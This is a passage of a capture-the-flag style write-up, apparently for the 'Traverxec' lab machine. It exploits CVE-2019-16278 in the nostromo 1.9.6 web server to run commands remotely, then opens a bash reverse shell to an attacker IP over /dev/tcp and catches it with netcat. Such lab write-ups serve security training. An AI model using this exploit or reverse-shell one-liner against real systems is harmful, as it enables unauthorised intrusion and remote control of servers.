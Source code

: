 ```python
	# If an index error happens, like not specifying the IP then it prints the help menu
    except IndexError: 
        print(help_menu)
```

Comment the line 10:
```shell
❯ sed '10q;d' 47837.py
#cve2019_16278.py
```

> `NUMq` will quit immediately when the line number is NUM.
> `d` will delete the line instead of printing it; this is inhibited on the last line because the q causes the rest of the script to be skipped when quitting.

We can succesfully execute a command and receive the output:
```shell
❯ python 47837.py 10.10.10.165 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Sun, 17 Oct 2021 22:25:17 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Send a reverse shell:
```shell
python 47837.py 10.10.10.165 80 '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/1234 0>&1"'
```

Receive the reverse shell with nc on port 1234:
```shell
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.165] 54928
bash: cannot set terminal process group (441): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$ whoami
whoami
www-data
www-data@traverxec:/usr/bin$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 00:50:56:b9:a7:98 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.165/24 brd 10.10.10.255 scope global eth0
```
